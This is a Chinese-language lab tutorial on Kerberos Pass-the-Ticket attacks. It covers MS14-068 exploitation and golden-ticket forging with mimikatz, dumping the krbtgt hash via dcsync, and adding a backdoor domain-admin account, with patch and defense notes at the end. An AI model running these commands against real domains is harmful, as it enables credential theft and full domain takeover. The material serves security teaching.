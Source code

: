 # 票据传递攻击

票据传递攻击（Pass The Ticket，PTT）是一种使用 Kerberos 票据代替明文密码或 NTLM 哈希的方法。PTH基于 NTLM 认证进行攻击，而 PTT 基于 Kerberos 协议进行攻击票据传递攻击，目的是伪造、窃取凭据提升权限。

常用的攻击方式：MS14-068、黄金票据、白银票据等。



### MS14-068

受影响版本：Windows Server 2003、Windows Vista、Windows Server 2008、Windows 7、Windows 8 and Windows 8.1、Windows Server 2012（以上系列的部分版本）

漏洞利用前提：

- 域控制器系统为受影响的版本，且没有打MS14-068的补丁（KB3011780）。
- 能操作一台域内的普通计算机，并获得普通域用户以及密码/hash值，以及用户的suid

##### 实验环境：

域 ：woniu.com

域控制器(DC) ： Windows 2008 R2 （IP：192.168.12.138）

域内计算机 ：Windows 7 （IP：192.168.12.136）

普通域用户 ：zhangsan

MS14-068漏洞利用工具 ：MS14-068.exe （https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068）

Windows 密码获取工具 ：mimikatz.exe

##### 复现过程：

1、域信息获取

使用 net time /domain 命令查看所在域的时间与域服务器的名字 ：

![image-20230308105944299](https://s2.loli.net/2023/03/11/SkDh6QWBqYvcpdo.png)

使用 ipconfig /all ，查看DNS服务器地址，单域中DNS与DC一般在同一服务器上

![image-20230308110050587](https://s2.loli.net/2023/03/11/E5Od3BSRgTv1IwL.png)

可以使用ping 命令进行校验

![image-20230308110203771](https://s2.loli.net/2023/03/11/uhqeFYDgLjJk1Uy.png)

```
域 : woniuxy.com
域服务器名称 : WIN-NTSRSI32D36.woniuxy.com
DC 的IP : 192.168.12.138
```

2、获取用户 SID ，使用命令：whoami /user

![image-20230308110317414](https://s2.loli.net/2023/03/11/pyUjlPwnTC784KL.png)

```
SID: S-1-5-21-158246089-49326684-4097947318-1103
```

3、使用MS14-068生成伪造的 kerberos 协议票据：

```
MS14-068.exe -u 用户名@域 -p 用户密码 -s 用户SID -d DC的IP

MS14-068.exe -u zhangsan@woniuxy.com -p p-0p-0p-0 -s S-1-5-21-158246089-49326684-4097947318-1103 -d 192.168.12.138
```

![image-20230308110546842](https://s2.loli.net/2023/03/11/ibcHMWOlZz7B8UK.png)

会生成一个“ccache”格式的文件（伪造的票据文件），存放于MS14-068.exe的工作目录下。

4、尝试访问域服务器的C盘，此时访问失败，因为我们还需要将票据导入。

5、使用mimikatz工具删除缓存的票据，并将伪造的票据导入内存。

mimikatz ：一款 Windows 密码获取工具，可以帮助用户提取出电脑中的登录凭证。可以从内存中提取明文密码、哈希、PIN 码和 kerberos 票证等，还有哈希传递、票证传递或构建黄金票证等功能。

（1）查看内存中已有的Kerberos票据：kerberos::list

![image-20230308110816284](https://s2.loli.net/2023/03/11/6DrUuFl1VjqvLtk.png)

（2）删除缓存票据：kerberos::purge

![image-20230308110906043](https://s2.loli.net/2023/03/11/lJC8OKIPTZn9UNj.png)

（3）导入伪造的票据：kerberos::ptc 票据存放路径

![image-20230308111203710](https://s2.loli.net/2023/03/11/T7tNeicKb2uDrQR.png)

6、再次访问域服务器的C盘，此时可以访问，说明普通域用户提权成功。

```
dir \\WIN-NTSRSI32D36.woniuxy.com\c$
```

![image-20230308111316159](https://s2.loli.net/2023/03/11/8fIHksmRt1gQ4YM.png)

#### 修复方法

 下载微软官方的MS14-068漏洞的补丁，补丁为KB3011780。



### 黄金票据



##### 实验环境：

域 ：woniu.com

域控制器(DC) ： Windows 2008 R2 （IP：192.168.12.138）

域内计算机 ：Windows 7 （IP：192.168.12.136）

普通域用户 ：zhangsan

MS14-068漏洞利用工具 ：MS14-068.exe （https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068）

Windows 密码获取工具 ：mimikatz.exe

##### 利用过程

1、首先我们需要获取域控的krbtgt的 NTLM Hash，此处直接登录域管理员账号后使用 mimikatz 导出。

打开mimikatz，输入命令查看krbtgt 的 Hash：

```
lsadump::dcsync /domain:woniuxy.com /user:krbtgt
```

![image-20230308150824610](https://s2.loli.net/2023/03/11/Q75eAmvctjqaLnw.png)

```
8961f71dc5ac6bd2b72297cea85544c3
```

2、登录普通用户账号，删除缓存票据，查看域SID。

删除缓存票据：kerberos::purge

![image-20230308151139236](https://s2.loli.net/2023/03/11/bJD6FKTXiev23yR.png)

域SID为用户SID的前面部分：whoami /user

![image-20230308151212751](https://s2.loli.net/2023/03/11/dsm9Xn1u6SAaLbq.png)

```
S-1-5-21-158246089-49326684-4097947318
```

3、制作黄金票据。

```
kerberos::golden /user:普通域用户 /domain:域 /sid:域的SID /krbtgt:krbtgt的NTLM_Hash /ticket:woniu.kirbi

kerberos::golden /user:zhangsan /domain:woniuxy.com /sid:S-1-5-21-158246089-49326684-4097947318 /krbtgt:8961f71dc5ac6bd2b72297cea85544c3 /ticket:woniu.kirbi
```

成功导出票据文件：

![image-20230308151928713](https://s2.loli.net/2023/03/11/FETx5jkDGNdVslK.png)

4、导入票据并测试。

使用命令导入票据获取权限：

```
kerberos::ptt woniu.kirbi
```

![image-20230308152005069](https://s2.loli.net/2023/03/11/qanJjmXURseO7Zd.png)

而后使用普通账户查看域服务器C盘文件 ：

```
dir \\WIN-NTSRSI32D36.woniuxy.com\c$
```

![image-20230308152042191](https://s2.loli.net/2023/03/11/8hwjlXQHA61qbD5.png)

创建域管账号hacker：

```
net user hacker p-0p-0p-0 /add /domain

net group "domain admins" hacker /add /domain
```

![image-20230308152202097](https://s2.loli.net/2023/03/11/fEJxk54YVrwg6jb.png)

#### 防御方法

（1） 限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机，将所有其他权限委派给自定义管理员组。降低攻击者访问域控制器的Active Directory的ntds.dit文件的可能。

（2） 定期更改krbtgt账户的密码。